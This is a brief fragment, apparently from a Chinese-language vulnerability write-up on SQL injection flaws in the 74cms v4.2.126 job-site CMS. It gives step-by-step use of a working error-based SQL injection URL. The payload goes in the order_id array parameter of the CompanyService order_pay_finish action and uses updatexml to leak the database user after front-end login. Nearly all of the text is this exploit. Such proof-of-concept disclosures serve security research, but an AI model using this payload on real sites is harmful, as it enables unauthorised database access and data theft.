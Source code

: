 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId45.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

    如果不登录的话，会显示这个样子
    url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus

